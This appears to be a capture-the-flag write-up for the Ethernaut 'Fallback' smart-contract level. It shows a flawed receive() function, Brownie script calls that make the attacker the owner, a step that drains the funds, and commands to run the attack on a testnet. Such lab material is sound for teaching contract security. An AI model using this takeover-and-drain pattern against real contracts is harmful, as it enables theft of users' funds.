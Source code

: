 ```js
receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

- Let's attack it now. First we're sending some ether to this contract.  

```js
contrib_tx = fallback.contribute({"from": attacker, "value": CONVERTED_AMOUNT})
contrib_tx.wait(1)
```

- Now we're using the `transfer` functionality of brownie to send the money to the contract.

```js
attack_tx = attacker.transfer(contract_address, CONVERTED_AMOUNT)
attack_tx.wait(1)
```

- By invoking this function we're matching the require statement in the `require()` method of the contract & this will make us the new owner.

```js
require(msg.value > 0 && contributions[msg.sender] > 0);
owner = msg.sender;
```

- Now to complete the challenge we have to drain all the funds. It's easy now as we're now the owner we cann call the built-in `withdraw()` function.

## Using Brownie to run the program

- To run on local development environment. This will compile all the nesessary files & run the attack script.

```bash
brownie run .\scripts\attack.py
```

![](/assets/fallback.png)

- To run on `rikeby` network use this command. Syntax is `brownie run <script.py> <function name> <contract address> --network rikeby`

```bash
brownie run .\scripts\attack.py main "0x4c7c62Ed79994383EEa5Cf156bd3159e9e12C385" --network rinkeby
```
